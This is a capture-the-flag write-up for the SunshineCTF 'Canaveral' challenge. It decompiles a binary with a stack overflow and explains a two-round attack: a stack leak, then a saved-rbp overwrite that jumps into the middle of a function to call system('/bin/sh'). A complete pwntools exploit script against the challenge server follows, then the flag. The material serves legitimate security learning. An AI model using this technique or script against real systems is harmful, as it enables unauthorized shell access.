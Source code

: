 # Canaveral

```
NASA Mission Control needs your help... only YOU can enter the proper launch sequence!!

    canaveral

nc chal.sunshinectf.games 25603 
```

Decompile in IDA:

```c
int vuln()
{
  _QWORD buf[5]; // [rsp+0h] [rbp-40h] BYREF
  _QWORD v2[3]; // [rsp+28h] [rbp-18h]

  memset(buf, 0, sizeof(buf));
  v2[0] = 0;
  *(_QWORD *)((char *)v2 + 6) = 0;
  printf("Enter the launch sequence: ");
  read(0, buf, 0x64u);
  return printf("Successful launch! Here's your prize: %p\n", buf);
}

void __fastcall win(int a1, const char *a2)
{
  if ( a1 == 201527 && a2 && !memcmp(a2, "/bin/sh", 7u) )
    system(a2);
}
```

There is a stack overflow in `read(0, buf, 0x64u)`. We can override return address to `win`. However, it validates the arguments. Let's see if we can bypass the check by jumping to the body of `win` instead of its entrypoint:

```asm
.text:00000000004011FD                 mov     edx, 7          ; n
.text:0000000000401202                 lea     rcx, aBinSh     ; "/bin/sh"
.text:0000000000401209                 mov     rsi, rcx        ; s2
.text:000000000040120C                 mov     rdi, rax        ; s1
.text:000000000040120F                 call    _memcmp
.text:0000000000401214                 test    eax, eax
.text:0000000000401216                 jnz     short loc_40122E
.text:0000000000401218                 mov     rax, [rbp+s1]
.text:000000000040121C                 mov     rdi, rax        ; command
.text:000000000040121F                 mov     eax, 0
.text:0000000000401224                 call    _system
```

If we jump to `0x401218`, then the effective instructions are:

```
.text:0000000000401218                 mov     rax, [rbp+s1]
.text:000000000040121C                 mov     rdi, rax        ; command
.text:000000000040121F                 mov     eax, 0
.text:0000000000401224                 call    _system
```

Then, we only need to put the address of `/bin/sh` (it is 0x402008 in binary) to `rbp+s1` (rbp-0x10 in fact), then it will call `system("/bin/sh")` for us.

How do we put the address of `/bin/sh` to rbp-0x10? The code leaks the stack for us, but it returns immediately:

```c
int vuln()
{
  // ..., leak stack
  return printf("Successful launch! Here's your prize: %p\n", buf);
}
```

So we can leak stack address for the first round while overwriting the return address to `vuln`, which gives us another round to attack. In the second round, we put the address of `/bin/sh` on the stack, overrides the saved rbp so that the new rbp minus 0x10 stores the address of `/bin/sh`, then we jump to `0x401218` to get shell:

```python
from pwn import *

elf = ELF("./canaveral")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = remote("chal.sunshinectf.games", 25603)
# p = process(["./canaveral"])
# gdb.attach(p)
# pause()
# two rounds
# first round jump back to vuln leak stack address
vuln_addr = elf.symbols["vuln"]
p.sendline(b"A" * 0x40 + p64(0) + p64(vuln_addr))
buf_addr = int(p.recvline().split()[-1], 16)

# second round, set rbp & save &"/bin/sh" to rbp+0x10
ret_addr = 0x40101A # ret gadget to balance stack
system_mid_addr = 0x401218
bin_sh_addr = next(elf.search(b"/bin/sh"))
# the address of bin_sh_addr is new_buf+0x40+0x8*3 = new_buf+0x58
# set rbp to buf+0x70, new_buf=buf-0x8 due to first round, then rbp-0x10 = buf+0x60 == new_buf+0x58
p.sendline(
    b"A" * 0x40 + p64(buf_addr + 0x70) + p64(ret_addr) + p64(system_mid_addr) + p64(bin_sh_addr)
)
p.interactive()
```

Flag: `sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}`.
